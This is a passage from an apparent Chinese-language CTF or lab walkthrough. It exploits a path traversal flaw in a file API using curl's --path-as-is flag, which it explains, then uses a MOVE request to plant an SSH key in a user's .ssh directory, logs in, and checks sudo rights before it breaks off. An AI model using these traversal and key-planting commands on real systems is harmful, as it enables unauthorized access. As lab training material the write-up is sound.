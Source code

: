 成功读取！这证明了漏洞的存在，并且我们可以通过此漏洞获取一个名为`ll`的用户信息。

### **技术剖析：客户端路径规范化与`--path-as-is`的重要性**

在这里，`--path-as-is`标志是本次漏洞利用成功的**决定性因素**。若缺少此标志，无论是使用浏览器还是默认的`curl`命令，攻击都会失败。其根本原因在于**客户端路径规范化 (Client-Side Path Normalization)**。

1.  **为什么浏览器和默认`curl`会失败？**
    当你在浏览器地址栏或标准的`curl`命令中输入包含 `../` 的URL时，客户端应用（浏览器或curl程序）会在发送HTTP请求**之前**，就“智能地”对路径进行清理和规范化。
    *   **输入路径**: `/api/files/../../../etc/passwd`
    *   **客户端规范化后**: `/etc/passwd`
        最终发送到服务器的请求路径是 `/etc/passwd`，这个路径不符合应用的API路由规则，因此无法触发漏洞，导致404错误。

2.  **为什么`--path-as-is`能够成功？**
    此参数的作用是告诉`curl`**关闭其默认的路径规范化功能**。它会将URL中的路径部分 `../../../etc/passwd` 原封不动地发送给服务器。由于服务端的Python应用代码存在缺陷，没有对接收到的路径进行安全处理，因此直接拼接并执行了文件操作，最终导致了目录遍历漏洞的成功利用。

利用此漏洞，我们使用`MOVE`方法将之前上传的`authorized_keys`文件移动到目标用户`ll`的`.ssh`目录下。

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X MOVE -H "X-Session-Token: xixilake-session-secure-2025" -H "Destination: ../../../home/ll/.ssh/authorized_keys" http://192.168.205.156:1045/api/files/authorized_keys
{"message":"File moved to ../../../home/ll/.ssh/authorized_keys"}
```

文件移动成功。现在我们可以通过SSH免密登录`ll`用户。

# 三、权限提升

## 3.1 获取初始Shell

利用已写入的SSH公钥，登录目标主机，获取低权限shell。

```bash
┌──(kali㉿kali)-[~]
└─$ ssh ll@192.168.205.156
...
ll@104567:~$ id
uid=1001(ll) gid=1001(ll) groups=1001(ll)
```

成功获取了`ll`用户的shell。

## 3.2 Sudo权限分析

检查当前用户的`sudo`权限，寻找提权线索。

```bash
ll@104567:~$ sudo -l
...
User ll may run the following commands on 104567:
    (ALL : ALL) NOPASSWD: /usr/bin/toilet
```
